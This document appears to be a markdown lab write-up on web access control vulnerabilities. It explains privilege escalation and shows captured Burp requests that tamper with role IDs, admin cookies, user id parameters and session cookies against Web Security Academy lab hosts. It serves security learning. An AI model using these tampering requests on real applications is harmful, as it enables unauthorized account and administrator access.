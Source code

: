 ## Access control vulnerabilities
Access control (or authorization) is the application of constraints on who (or what) 
can perform attempted actions or access resources that they have requested. 
In the context of web applications, access control is dependent on authentication and session management: 

## 1. Parameter-based access control methods
Some applications determine the user's access rights or role at login, and then store this information in a user-controllable location,
such as a hidden field, cookie, or preset query string parameter. 
The application makes subsequent access control decisions based on the submitted value

## For Example

    https://insecure-website.com/login/home.jsp?admin=true
    https://insecure-website.com/login/home.jsp?role=1

This approach is fundamentally insecure because a user can simply modify the value and gain access to functionality to which they are not authorized,
such as administrative functions. 

## 2. Horizontal privilege escalation
Horizontal privilege escalation arises when a user is able to gain access to resources belonging to another user, instead of their own resources of that type. For example, if an employee should only be able to access their own employment and payroll records, but can in fact also access the records of other employees, then this is horizontal privilege escalation. 

 Horizontal privilege escalation attacks may use similar types of exploit methods to vertical privilege escalation. 
 ## For example
 a user might ordinarily access their own account page using a URL like the following: 

    https://insecure-website.com/myaccount?id=123
Now, if an attacker modifies the id parameter value to that of another user, then the attacker might gain access to another user's account page, with associated data and functions. 

## 3. Horizontal to vertical privilege escalation
Often, a horizontal privilege escalation attack can be turned into a vertical privilege escalation, by compromising a more privileged user.
For example, a horizontal escalation might allow an attacker to reset or capture the password belonging to another user.
If the attacker targets an administrative user and compromises their account, then they can gain administrative access and so perform vertical privilege escalation.

## For Example
an attacker might be able to gain access to another user's account page using the parameter tampering technique already described for horizontal privilege escalation:

    https://insecure-website.com/myaccount?id=456
    
If the target user is an application administrator, then the attacker will gain access to an administrative account page. This page might disclose the administrator's password or provide a means of changing it, or might provide direct access to privileged functionality. 
    
    
## LAB
 
 ## 1. STEP
  Asif Is Upgrade User 
  Login in the login page and Caputer The Request In Burp Repeter and  analyze the Request
    
    POST /admin-roles HTTP/1.1
    Host: acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Cookie: session=dhb7aRHg7lEnRb2uRogyfXu2onwMp2jY
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 45
    Origin: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Referer: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net/admin-roles
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    action=upgrade&confirmed=true&username=asif
    

 ## 2.STEP
 Khan Is Local user 
 Login in the login page and Caputer The Request In Burp Repeter and  analyze the Request 
 
     GET /my-account?id=khan HTTP/1.1
     Host: acca1f871ff59314c0b1124d00580002.web-security-academy.net
     Cookie: session=ai64aRHg7lEnRb2uadg95Xu2onw98v9f
     User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
     Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
     Accept-Language: en-US,en;q=0.5
     Accept-Encoding: gzip, deflate
     Referer: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net/my-account
     Upgrade-Insecure-Requests: 1
     Sec-Fetch-Dest: document
     Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

 
  ## 3.STEP 
  First some Changing Copy Local user Cookie: Session and past the Upgrade Request and Secand is Change the Nmae just Example 
  Upgrade user name is Asif to change and type khan and send the Request Server and Local user is Upgrade This vulnerabilities
  IS Access-control-vulnerabilities
 
    POST /admin-roles HTTP/1.1
    Host: acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Cookie: session=dhb7aRHg7lEnRb2uRogyfXu2onwMp2jY
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 45
    Origin: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net
    Referer: https://acca1f871ff59314c0b1124d00580002.web-security-academy.net/admin-roles
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    action=upgrade&confirmed=true&username=asif
    
 
 
 ## 1. User role controlled by request parameter
 
 In Burp Proxy, turn interception on and enable response interception
 
 Complete and submit the login page, and forward the resulting request in Burp.
 
 Observe that the response sets the cookie Admin=false. Change it to Admin=true. 
 
 Acess The directory
 
 
 ## 2. User role can be modified in user profile
 
 Request Sand to repeter 
 
 Observe that the response contains your role ID.
 
 Send the email submission request to Burp Repeater, add "roleid":2 into the JSON in the request body, and resend it. 
 
 Observe that the response shows your roleid has changed to 2.

    POST /my-account/change-email HTTP/1.1
    Host: 0af600bd034d16ccc01622bd007500ff.web-security-academy.net
    Cookie: session=BtwJhdFHvFMf80vO1cbyBAFzL6fR2Ybb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: text/plain;charset=UTF-8
    Content-Length: 37
    Origin: https://0af600bd034d16ccc01622bd007500ff.web-security-academy.net
    Referer: https://0af600bd034d16ccc01622bd007500ff.web-security-academy.net/my-account?id=wiener
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers
    Connection: close

    {"email":"asif@khan.com","roleid":2}



 ## 3. User ID controlled by request parameter 
 
  Log in using the supplied credentials and go to your account page.
  
  Note that the URL contains your username in the "id" parameter. 
  
  Send the request to Burp Repeater.
  
  Change the "id" parameter and sand the server accept the request, This is vulnerability
  
     GET /my-account?id=asif HTTP/1.1
Host: 0a3f0064038d99a1c0d1738b007b0085.web-security-academy.net
Cookie: session=NN4wD7kCq0mi8vnkAdVwEg9TkEMZYlSd
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3f0064038d99a1c0d1738b007b0085.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close





